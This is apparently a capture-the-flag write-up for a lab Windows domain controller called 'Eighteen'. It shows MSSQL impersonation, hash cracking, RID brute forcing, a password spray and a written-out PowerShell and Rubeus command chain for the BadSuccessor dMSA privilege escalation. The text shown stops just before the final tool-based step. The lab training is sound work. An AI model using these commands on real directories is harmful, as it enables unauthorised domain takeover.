Eighteen

Eighteen was an easy-difficulty Windows Active Directory machine that began with an nmap scan revealing an atypical domain controller layout, with HTTP on port 80, WinRM on port 5985, and MSSQL on port 1433, notably absent of DNS and Kerberos ports. Initial website enumeration revealed a Flask-based expense tracking application, where creating a basic account exposed limited input fields. Provided credentials for kevin were valid against the MSSQL service, where enumeration revealed a non-standard financial_planner database and an impersonation path to the appdev login. Impersonating appdev granted access to the financial_planner database, where a Werkzeug PBKDF2 password hash for the admin account was recovered. The hash required manual reformatting from its raw hex and ASCII components into base64 to match hashcat's expected input format for PBKDF2-HMAC-SHA256, after which it cracked to reveal the password iloveyou1. With no SMB or LDAP exposed externally, RID bruteforcing was performed over the MSSQL module in netexec to enumerate domain users. A password spray using the cracked credential against WinRM yielded a hit on adam.scott, providing an interactive remote session via evil-winrm.
BloodHound enumeration with SharpHound failed to surface useful paths due to the legacy version in use. PowerView was instead used to enumerate ACLs directly, revealing that the IT group, of which adam.scott was a member, held CreateChild rights over the Staff Organizational Unit. Running on Windows Server 2025, this configuration was vulnerable to the BadSuccessor attack, which abuses delegated Managed Service Accounts to impersonate arbitrary principals including domain administrators. A Ligolo tunnel was established to expose the DC's internal ports, making Kerberos and LDAP accessible. SharpSuccessor was used to create a malicious dMSA account in the Staff OU preconfigured to precede the Administrator account. Impacket-getST was then used with the dmsa flag to request a service ticket impersonating the dMSA, which carried Administrator-level privileges. The ticket was used with netexec to perform a DCSync and recover the Administrator's NTLM hash, granting full access to the domain controller.
User flag

Initial nmap scan reveals just 3 ports. HTTP on 80 and 5985, and MSSQL on 1443.
This seems to be a Domain Controller, but there are no ports for DNS(53) nor Kerberos(88)... I'm wondering how the lack of those 2 might affect my tool usage in this scenario.
Checking out the website
Initial credentials for Kevin don't work as a valid website login, so I'll make a basic account to explore the site.

There are 3 input fields, from which only the category field accepts all characters. The other fields accept only integers.
After trying manual SQLi enumeration for a while, I threw the following request into sqlmap. The parameter was deemed not injectable.
POST /add_expense HTTP/1.1
Host: eighteen.htb
Content-Length: 30
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: http://eighteen.htb
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eighteen.htb/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJyrVkorzcmJz0vMTVWyUspS0lEqLU4tis9MUbIyNDAwhXDhsrUAcFIO6w.adnJow.ZdBcl-LAlhS1Om57JhO5ZLp8SEM
Connection: keep-alive
category=*&type=fixed&value=10

MSSQL service exploration
I'll check whether Kevin's credentials work for the MSSQL service.
impacket-mssqlclient eighteen.htb/kevin:'iNa2we6haRj2gaw!'@eighteen.htb

There is a non-standard DB(financial_planner), and a user appdev. Kevin cannot access the DB, nor can they enumerate it whatsoever.
I'll check what kind of permissions Kevin has and what I can use to move forward.

(If MSSQL is used from a local port within a box, the following query can be used to achieve a similar result:
SELECT sp.name AS grantor, sp2.name AS grantee, sp3.name AS target_login, perm.permission_name, perm.state_desc FROM sys.server_permissions perm JOIN sys.server_principals sp ON perm.grantor_principal_id = sp.principal_id JOIN sys.server_principals sp2 ON perm.grantee_principal_id = sp2.principal_id JOIN sys.server_principals sp3 ON perm.major_id = sp3.principal_id WHERE perm.permission_name = 'IMPERSONATE';
)
Kevin can impersonate the appdev. This user might have access to the planner DB, so I'll take them over right away.
EXECUTE AS LOGIN 'appdev' -> Impersonate appdev
select table_name from information_schema.tables -> Enumerate tables in the DB

This admin hash is the only entry in the user's table. The iteration count is pretty high, and it is a PBKDF2 hash, but I'll try cracking it either way.
Cracking the admin hash

...Or I would, if it were in a hashcat-favorable format. Initial website enumeration revealed that this is a Flask app(via 404 page enumeration), and the most commonly used password hashing solution comes from Werkzeug.
This matches the hash, as Werkzeug uses pbkdf2 + sha256 + salt for its hashes. The example hashcat entry for PBKDF2-HMAC-SHA256 is sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt. It has no PBKDF2 prefix and uses base64 for both the salt and the hash. I'll convert both sections into the appropriate formats.
https://hashcat.net/wiki/doku.php?id=example_hashes
echo -n 0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133 | xxd -r -p | base64 -> From hex to raw bytes, to base64
echo -n AMtzteQIG7yAbZIa | base64 -> Plain ASCII to base64

admin | iloveyou1
I'll log into the website with these credentials, because earlier I saw a previously-inaccessible administrator endpoint.

RID bruteforcing and password spray
The admin dashboard holds nothing of use to me. I haven't done a password spray yet, and I have a new credential now. This is the best time to go forward with this attack.
Since both SMB and LDAP ports are not open to me, I will use netexec with the MSSQL module to perform an RID brute force.
nxc mssql eighteen.htb -u kevin -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute 2000
I'll save the output into a separate file by piping this command to awk.
awk -F '\' '{ print $2 }' > userlist

I already know that there are no more interesting accounts to own for the MSSQL service. The only open port that's untouched is WinRM on 5985, which will allow remote logon for any user whose credentials are accepted.
nxc winrm eighteen.htb -u userlist -p passlist --continue-on-success

adam.scott | iloveyou1
Adam Scott has remote access to the box. I'll use evil-winrm-py to connect to DC01.

Root flag
With direct access to the machine, I'll look for interesting permissions using Bloodhound. I'm using the legacy version because my device is not powerful enough for CE...
https://github.com/SpecterOps/BloodHound-Legacy
https://github.com/SpecterOps/BloodHound-Legacy/tree/master/Collectors
I will upload SharpHound onto the box to enumerate the domain.

However, Bloodhound does not show any interesting permissions of adam.scott in the graph. It could be because this is a legacy version from 3 years ago. This is a great example of why one should not rely on a singular tool for doing things.
Using PowerView to discover ACL permissions
I'll use PowerView to perform recon from within my remote session. This way, I'll be able to see everything that I want "raw" without certain entries being hidden.
https://github.com/PowerShellMafia/PowerSploit
. .\PowerView.ps1 -> Import the PS1 module after download

PowerView contains tons of useful functions, but the one I want right now is Find-InterestingDomainAcl to see exactly what adam.scott is allowed to do.

The custom IT group has CreateChild over the Staff Organizational Unit. This permission creates a prime opportunity for Administrator-level escalation, if certain conditions are met.
BadSuccessor exploitation
From the netexec usage during the user flag portion of the box, I know that this is a Windows Server 2025 machine. There is a certain, well-known by this point, escalation path affecting the newest instance of Windows Server.
Essentially, this allows me to "precede" any account I want to target, including administrators. I tried to exploit this manually with the following command chain, but I must've missed something because I could not get the desired permissions.
New-ADComputer -Name "TESTPC" -SamAccountName "TESTPC$" -Path "OU=Staff,DC=eighteen,DC=htb" -> Create a computer account. This is because I'll be using delegation, for which computer accounts are already well-suited
Set-ADAccountPassword -Identity "TESTPC$" -Reset -NewPassword (ConvertTo-SecureString "Password123" -AsPlainText -Force) -> Change the account's password to a known value
New-ADServiceAccount -Name "mal_dMSA" -DNSHostName "random.l" -CreateDelegatedServiceAccount -PrincipalsAllowedToRetrieveManagedPassword "TESTPC$" -Path "OU=Staff,DC=eighteen,DC=htb" -> Creates a dMSA account in the affected OU
$dMSA = [ADSI]"LDAP://CN=mal_dMSA,OU=Staff,DC=eighteen,DC=htb" -> Set up a connection to Active Directory Service Interfaces
$dMSA.put("msDS-DelegatedMSAState", 2) -> Set up the attributes necessary for BadSuccessor
$dMSA.put("msDS-ManagedAccountPrecededByLink", "CN=Administrator,CN=Users,DC=eighteen,DC=htb") -> Setting administrator as the account to precede. Ideally, this would cause our mal_dMSA to be granted administrator's specifics, like group memberships
Add-DomainObjectAcl ` -TargetIdentity "CN=mal_dMSA,OU=Staff,DC=eighteen,DC=htb" ` -PrincipalIdentity "eighteen.htb\adam.scott" ` -Rights All -> Grant adam.scott FullControl rights over the dMSA. This is so that we can actually apply the changes made via ADSI, as right now they are just sitting in memory, not actually applied.
$dMSA.SetInfo() -> Apply the changes
.\Rubeus.exe asktgt /user:"TESTPC$" /password:Password123 /nowrap /enctype:aes256 -> Request a TGT for our malicious computer
.\Rubeus.exe asktgs /targetuser:"mal_dMSA$" /service:krbtgt/eighteen.htb /dmsa /opsec /nowrap /ptt /ticket:<B64_TICKET> -> Request a TGS to krbtgt for our dMSA, using the computer TGT received earlier

This whole manual chain failed for some reason. If it had worked, I would be able to access the C$ share via SMB, but that did not happen.
Abusing BadSuccessor with local port access and tools
I want to access the internal ports(Mostly Kerberos and LDAP) of the DC. To do so, I will use an approach identical to the one used in Signed, which involves creating a "magic" tunnel with Ligolo.

The DC is now accessible via the IP address 240.0.0.1. To perform the attack, I will need 2 tools:
getST.py from impacket
SharpSuccessor.exe
